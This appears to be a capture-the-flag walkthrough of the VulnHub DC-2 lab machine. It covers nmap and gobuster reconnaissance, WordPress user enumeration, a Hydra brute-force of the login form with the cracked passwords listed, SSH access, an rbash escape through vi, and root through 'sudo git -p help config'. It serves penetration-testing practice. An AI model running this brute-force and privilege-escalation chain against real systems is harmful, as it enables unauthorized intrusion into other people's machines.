

# DC: 2 Walkthrough

## Preparation
1. Download DC-2.ova file ([DC-2.ova](https://download.vulnhub.com/dc/DC-2.zip))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    

1. Start the DC-2 virtual machine
    * Turn on the DC-2 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the DC-2 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.105**: DC-2 Server

1. Set the DC-2 IP address to the environment variance  
    * `export IP=192.168.56.105`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 80 (Http Service) and 7744 (SSH Service) ports.  

## Initial Access
1. Access to the 80 port
    * Open web browser from the ParrotOS and access to the `http://192.168.56.105`  
      
        - We cannnot access the page due to be redirecting

1. Add the IP address in the /etc/hosts file
    * `sudo vi /etc/hosts`  
      
        - Add `192.168.56.105 dc-2`  

1. Access to the Flag page
    * Click the "Flag"  
      

1. Find accessible files and directories using Gobuster
    * Set the target URL into the environment variable  
    `export URL="http://$IP:80/"`  
    * Input the following gobuster command  
      
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        - dir: Enumerate directories and files
        - -u: Designate target URL
        - -w: Use dictionary file  
    * "/wp-admin", "/wp-content", and "/wp-includes" are found

1. Access to the "/wp-admin"
    * When entering "admin" in the username and "password" in the password, the following error message is shown  
      
        - It is implied the "admin" username exists

1. Collect user information using Nmap
    * Input `nmap -p 80 --script http-wordpress-users $IP`  
      
        - Found other 2 users (**tom** and **jerry**)  
    * Make users list  
    `vi users.txt`  
      

1. Make password dictionary file
    * According to the Flag1 page, it indicates using CeWL  
    * It might succeed in a password dictionary attack  
    * Input `~/CeWL/cewl.rb dc-2 -w ./cewl.txt`  
        - -w: output the result to the designated file 

## Execution (First Try)
1. Crack the password using Hydra
    * Open BurpSuite
    * Proxy -> Intercept -> Click "Intercept on"
    * Access to the WordPress login page and input "admin in the username and "password" in the password
    * Memorize request log in the BurpSuite
      
    * Input the following Hydra command  
    `hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`  
      
    * Explantion of Hydra's command  
    `hydra -L username-list -P password-list URL_TO_SERVER http-post-form 'PATH-TO_LOGIN:POST_REQUEST_FOR_LOGIN:S=XXX'
`  
        - -L: Pass the username (This time passes the user name list)
        - -P: Pass the password (This time passes the password list of CeWL)
        - URL_TO_SERVER: Server's URL
        - http-post-form: Form type
        - PATH-TO_LOGIN: Relative path of the login form from the root 
        - POST_REQUEST_FOR_LOGIN: Memorized request from BurpSuit (Replace username as "**^USER^**" and password as "**^PASS^**")  
        - S=: Test success (If you want to test fail, it uses F=:)
    * The exploited passwords are as follows

        | Username | Password   |
        | :------- | :--------- |
        | jerry    | adipiscing |
        | tom      | parturient |

## Credential Access for general user (First Try)
1. Access to the dashboard of WordPress
    * Log in as jerry using the exploited passwords
    * Access to the Flag2 page 
      
        - Unfortunately, it may not attack using WordPress vulnerabilities because we cannot log in as the admin account  

## Execution (Second Try)
1. From the Nmap result, we can attemp to attack to SSH (7744 port)  
    * Access to SSH as jerry `ssh jerry@$IP -p 7744`  
      
        - Password: adipiscing
        - We cannot log in with the jerry's password  
    * Access to SSH as tom `ssh tom@$IP -p 7744`  
      
        - Password: parturient
        - Return the prompt (Success!!)

## Credential Access for general user (Second Try)
1. Investigate executable command of Tom
    * Input `echo $SHELL` and `echo $0`   
      
    * Tom's bash is rbash, which has limited functions
        - The PATH environment variable is read-only  
        - Unable to execute the command with the full path  
        - Cannot redirect  
        - Functional restriction mode cannot be disabled  

1. Search usr directory
    * Search using ls command  
      
        - There are "less", "ls", "scp", and "vi" symbolic links

1. Open the "flag3.txt" file using vi
    * As there is a "flag3.txt" file in the current directory (ls -la), open the file using vi
    * Input `vi flag3.txt`  
      

1. Change shell from rbash to sh
    * Open vi
    * Input `:set shell=/bin/sh` and Enter  
    * Input `:shell` and Enter  
      
        - The shell is changed from rbash to sh  
    * Reset PATH environment variable  
    `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`  

1. Change another user
    * Based on the flag3.txt file, we change the user using the "su" command (`su jerry`)  
      
        - Passowrd: adipiscing

1. Access to the "flag4.txt" file  
    * There is a flag4.txt file in the jerry's home directory  
      
        - Unfortunately, there are no hints  

1. Investigate setting of sudo command
    * Input `sudo -l`  
      
        - We found the "**/usr/bin/git**", which can execute without a password

## Privilege Escalation
1. Exploit the git command
    * Input `sudo git -p help config`  
    * Input `!/bin/sh` and Enter  
      
        - Return the root prompt (# mark is shown)  

## Credential Access for root user
1. Move to the root directory and confirm the "final-flag.txt" file
    * Enter `cd /root`  
    * Enter `cat final-flag.txt`  
      